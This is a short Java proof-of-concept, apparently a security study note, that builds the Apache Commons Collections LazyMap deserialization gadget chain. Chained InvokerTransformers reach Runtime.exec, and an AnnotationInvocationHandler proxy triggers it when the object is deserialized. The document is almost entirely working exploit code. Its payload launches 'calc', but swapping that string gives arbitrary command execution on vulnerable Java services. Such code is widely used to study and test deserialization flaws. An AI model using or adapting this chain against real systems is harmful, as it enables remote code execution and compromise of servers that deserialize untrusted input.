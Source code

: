 ## LazyMap构造利用链

```java
package com.yutao.day9;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;
import org.hibernate.annotations.common.annotationfactory.AnnotationProxy;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class LazyMapPoc {
    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}),
        };

        Transformer chainedTransformer = new ChainedTransformer(transformers);
        Map map = new HashMap<>();
        map.put("value", "aaa");

        Map transformedMap = LazyMap.decorate(map, chainedTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        annotationInvocationhdlConstructor.setAccessible(true);

        InvocationHandler ih = (InvocationHandler) annotationInvocationhdlConstructor.newInstance(Target.class, transformedMap);
		// 创建代理对象proxyMap来代理map，代理对象执行的所有方法都会替换执行InvocationHandler中的invoke方法
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, ih);

        ih = (InvocationHandler) annotationInvocationhdlConstructor.newInstance(Target.class, proxyMap);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(ih);

        ByteArrayInputStream bin = new ByteArrayInputStream(barr.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bin);
        Object obj = ois.readObject();
    }
}
```
